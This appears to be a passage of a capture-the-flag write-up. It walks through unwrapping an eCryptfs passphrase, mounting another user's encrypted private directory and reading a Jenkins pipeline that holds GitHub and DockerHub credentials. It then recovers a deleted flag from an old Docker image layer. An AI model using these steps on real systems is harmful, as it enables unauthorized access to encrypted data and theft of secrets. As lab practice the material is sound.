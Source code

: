 extract the passphrase using the password
```bash
ecryptfs-unwrap-passphrase .ecryptfs/wrapped-passphrase
```

pass the passphrase to session keyring

```bash
echo -n "ff1e6fc9c5ae25bd0cf2031b57ad8e21" |ecryptfs-add-passphrase --fnek
keyctl link @u @s
```

decrypt the .private directory to get the files of serbay

```bash
sudo ecryptfs-recover-private .Private

INFO: Found [.Private].
Try to recover this directory? [Y/n]: 
INFO: Found your wrapped-passphrase
Do you know your LOGIN passphrase? [Y/n] 
INFO: Enter your LOGIN passphrase...
Passphrase: 
Inserted auth tok with sig [422b624d6690c6b9] into the user session keyring
INFO: Success!  Private data mounted at [/tmp/ecryptfs.rbOwgpvR].
```

```bash
cd /tmp/ecryptfs.rbOwgpvR
```

```bash
cat /tmp/ecryptfs.rbOwgpvR/.jenkins/jobs/serbis/config.xml

  agent any
  environment {
    IMAGE = &apos;serbay123/serbay&apos;
  }
  stages {
    stage(&apos;Checkout&apos;) {
      steps {
        withCredentials([string(credentialsId: &apos;github-pat&apos;, variable: &apos;GITHUB_TOKEN&apos;)]) {
          sh &apos;git clone https://azzedine-serbay:${GITHUB_TOKEN}@github.com/azzdine-serbay/9hwa_7lib.git .&apos;
          
        }
      }
    }

    stage(&apos;Build Image&apos;) {
      steps {
        script {
          sh &quot;docker build -t ${IMAGE} .&quot;
        }
      }
    }

    stage(&apos;DockerHub Login &amp; Push&apos;) {
      steps {
        withCredentials([usernamePassword(credentialsId: &apos;dockerhub-creds&apos;, usernameVariable: &apos;DOCKERHUB_USER&apos;, passwordVariable: &apos;DOCKERHUB_PASS&apos;)]) {
          sh &quot;docker login -u ${DOCKERHUB_USER} -p ${DOCKERHUB_PASS}&quot;
          sh &quot;docker push ${IMAGE}&quot;
        }
      }
    }

    stage(&apos;Pull &amp; Run&apos;) {
      steps {
        script {
          sh &quot;docker pull ${IMAGE}&quot;
          sh &quot;docker run -d --name serbay_container ${IMAGE}&quot;
        }
      }
    }

    stage(&apos;Cleanup&apos;) {
      steps {
        script {
          sh &quot;docker rm -f serbay_container || true&quot;
          sh &quot;docker rmi ${IMAGE} || true&quot;
        }
        cleanWs()
      }
    }
  }
}
</script>
```

this pipelins push an image to dockerhub (the image name is `serbay123/serbay`)

pulling this image and analyzing it with dive

```bash
docker pull serbay123/serbay
dive serbay123/serbay
```

we see that it copies the all files to `/app` and then deletes the flag from `/app/flag.txt`, so we need to get the hash of the image before deleting the flag, then extract it to get the flag

```bash
docker save serbay123/serbay -o app.tar
tar -xvf app.tar
tar -xvf blobs/sha256/59932fd02f8110638c6e31c1bb0326c2d5e41a13f816f1408bdabce7418e080a

cat app/flag.txt
```

